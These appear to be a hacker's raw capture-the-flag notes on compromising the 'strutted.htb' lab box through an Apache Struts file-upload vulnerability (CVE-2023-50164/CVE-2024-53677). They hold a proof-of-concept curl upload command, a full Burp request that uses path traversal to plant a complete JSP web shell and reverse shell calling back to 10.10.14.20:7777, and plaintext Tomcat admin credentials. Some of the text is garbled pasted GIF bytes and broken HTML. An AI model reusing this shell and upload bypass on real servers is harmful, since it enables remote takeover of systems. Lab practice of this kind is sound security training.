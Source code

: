 ___


form id="upload" name="upload" action="[/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6](view-source:http://strutted.htb/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6)" method="post" enctype="multipart/form-data"> class="mb-3 file-group">  for="upload" class="form-label">Choose an image to upload: type="file" name="upload" id="upload" class="form-control"/> lass="d-grid"type="submit" value="Upload" id="upload_0" class="btn btn-primary"/> 
iv

*this is post endpoint for file upload*

/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6

nginx is being used as a reverse proxy

apache tomcat is the actual server running the java app

jsessionid being passed in url -> can i fuzz it?? is there a format for them idk

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
*tomcat gui creds*
`%% <tomcat-users>`
    `<role rolename="manager-gui"/>`
    `<role rolename="admin-gui"/>`
    `<user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>`
`</tomcat`


  `<CookieProcessor className="org.apache.tomcat.util.http.Rfc6265CookieProcessor"`
 `%%`



*I think this the CVE*

https://cloudsecurityalliance.org/blog/2024/03/06/cybersecurity-advisory-apache-struts-vulnerability-cve-2023-50164


# Cybersecurity Advisory: Apache Struts Vulnerability CVE-2023-50164


*this docker container image of tomcat is vulnerable to rce with that CVE*

https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker/blob/main/context.xml

*this is what i used*
https://github.com/snyk-labs/CVE-2023-50164-POC

*POC*

```
curl \
http://localhost:9999/struts-vuln-poc/upload.action \
-F "Upload=@./payload/rogue.jsp" \
-F "uploadFileName=../src/main/webapp/rogue.jsp"
```


*gif file top*
GIF89aÜ T ÷ F@?F04U;7	;79zxw 3/3ULIÜÝà4*&º­¥*&)356e[Zpll J#"   .)/RD! ^.&K0'' %91,0èèêÇ¾¸&äáÝÒµ¥YB=>ArL:çåäÖÔÒµ³¶HGM¾º·ÇÇÊx«uf²m¤oOª§§TSSôòô«¡~h[Ç©çÝÑ÷õø¤bNC!kVK¡lD5aDéÎ¿ld]ÒÎÊ¨zfjS¾®zRÌ¡ÆizýûüTU[rV<öô÷+&0



*this is the absolute path of the webapp*


/usr/local/tomcat/webapps/ROOT/


*this file path?*
../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/files.gif


WEB-INF/upload.jsp


*this is where files get uploaded*
http://strutted.htb:8080/uploads/20250805_225944/files.gif



*imma keep looking*

*this is the version of struts in library*
struts2-core-6.3.0.1.jar vulnerabilities



# CVE-2023-50164

#CVE-2024-53677 -> newer one 
this should b the cve


*I am using the fileUpload Interceptor so the last CVE should work*
%% 
`root@7b1b5932499a:/usr/local/tomcat/webapps/ROOT/WEB-INF/classes# cat struts.xml | grep -i interceptor`
            `<interceptor-ref name="fileUpload">`
            `</interceptor-ref>`
            `<interceptor-ref name="defaultStack"/>`

 %%


*now I need to bypass validation checks and upload jsp for rev shell*


THIS WORKED ON BURP GOT DIRECTORY TRAVERSAL
# holly I got it!!!!!!!!!!!!!!!!!!!!

`POST /upload.action HTTP/1.1`
`Host: strutted.htb:8080`
`User-Agent: Mozilla/5.0`
`Accept-Encoding: gzip, deflate`
`Accept: */*`
`Connection: keep-alive`
`Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Length: 577`

`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="Upload"; filename="file.gif"`
`Content-Type: image/gif`

`GIF89aÜ T ÷ F@?F04U;7	;79zxw 3/3ULIÜÝà4*&º­¥*&)356e[Zpll J#"   .)/RD! ^.&K0'' %91,0èèêÇ¾¸&äáÝÒµ¥YB=>ArL:çåäÖÔÒµ³¶HGM¾º·ÇÇÊx«uf²m¤oOª§§TSSôòô«¡~h[Ç©çÝÑ÷õø¤bNC!kVK¡lD5aDéÎÂ¿ld]ÃÃÃÂ¨zfÂjSÂ¾ÂÂÂ®zRÃÂ¡ÂÃÂizÂÂÃ½Ã»Ã¼TU[rV<Ã¶Ã´Ã·+&0`
`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="uploadFileName"`

`../../file.gif`
`------WebKitFormBoundaryq8xuqupv9fo4psw6--`



*magic file number*
GIF89aÜ


*java web 2 way from rev shells worked!!!*








# full burp post request

`POST /upload.action HTTP/1.1`
`Host: strutted.htb:80`
`User-Agent: Mozilla/5.0`
`Accept-Encoding: gzip, deflate`
`Accept: */*`
`Connection: keep-alive`
`Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Length: 3850`

`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="Upload"; filename="file.gif"`
`Content-Type: image/gif`

`GIF89aÜ <%`
    `/*`
     `* Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.`
     `* If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.`
     `* Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing` 
     `* the command specified in the HTML form). This is to avoid to keep it simple.`
     `*/`
`%>`


`<%@page import="java.lang.*"%>`
`<%@page import="java.io.*"%>`
`<%@page import="java.net.*"%>`
`<%@page import="java.util.*"%>`

`<html>`
`<head>`
    `<title>jrshell</title>`
`</head>`
`<body>`
`<form METHOD="POST" NAME="myform" ACTION="">`
    `<input TYPE="text" NAME="shell">`
    `<input TYPE="submit" VALUE="Send">`
`</form>`
`<pre>`
`<%`
    `// Define the OS`
    `String shellPath = null;`
    `try`
    `{`
        `if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {`
            `shellPath = new String("/bin/sh");`
        `} else {`
            `shellPath = new String("cmd.exe");`
        `}`
    `} catch( Exception e ){}`
    `// INNER HTML PART`
    `if (request.getParameter("shell") != null) {`
        `out.println("Command: " + request.getParameter("shell") + "\n<BR>");`
        `Process p;`
        `if (shellPath.equals("cmd.exe"))`
            `p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));`
        `else`
            `p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));`
        `OutputStream os = p.getOutputStream();`
        `InputStream in = p.getInputStream();`
        `DataInputStream dis = new DataInputStream(in);`
        `String disr = dis.readLine();`
        `while ( disr != null ) {`
            `out.println(disr);`
            `disr = dis.readLine();`
        `}`
    `}`
    `// TCP PORT PART`
    `class StreamConnector extends Thread`
    `{`
        `InputStream wz;`
        `OutputStream yr;`
        `StreamConnector( InputStream wz, OutputStream yr ) {`
            `this.wz = wz;`
            `this.yr = yr;`
        `}`
        `public void run()`
        `{`
            `BufferedReader r  = null;`
            `BufferedWriter w = null;`
            `try`
            `{`
                `r  = new BufferedReader(new InputStreamReader(wz));`
                `w = new BufferedWriter(new OutputStreamWriter(yr));`
                `char buffer[] = new char[8192];`
                `int length;`
                `while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )`
                `{`
                    `w.write( buffer, 0, length );`
                    `w.flush();`
                `}`
            `} catch( Exception e ){}`
            `try`
            `{`
                `if( r != null )`
                    `r.close();`
                `if( w != null )`
                    `w.close();`
            `} catch( Exception e ){}`
        `}`
    `}`
 
    `try {`
        `Socket socket = new Socket( "10.10.14.20", 7777 ); // Replace with wanted ip and port`
        `Process process = Runtime.getRuntime().exec( shellPath );`
        `new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();`
        `new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();`
        `out.println("port opened on " + socket);`
     `} catch( Exception e ) {}`
`%>`
`</pre>`
`</body>`
`</html>`
`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="uploadFileName"`

`../../file.jsp`
`------WebKitFormBoundaryq8xuqupv9fo4psw6--`





`<!--`
  `<user username="admin" password="<must-be-changed>" roles="manager-gui"/>`
  `<user username="robot" password="<must-be-changed>" roles="manager-script"/>`
  `<role rolename="manager-gui"/>`
  `<role rolename="admin-gui"/>`
  `<user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>`
`--->`
`<!--`

  `Built-in Tomcat manager roles:`
    `- manager-gui    - allows access to the HTML GUI and the status pages`
    `- manager-script - allows access to the HTTP API and the status pages`



`*whats this*`
    `<!-- Define an AJP 1.3 Connector on port 8009 -->`
    `<!--`
    `<Connector protocol="AJP/1.3"`
               `address="::1"`
               `port="8009"`
               `redirectPort="8443" />`
    `-->`



james:x:1000:1000:Network Administrator:/home/james:/bin/bash


sudo -l

*root was super easy*




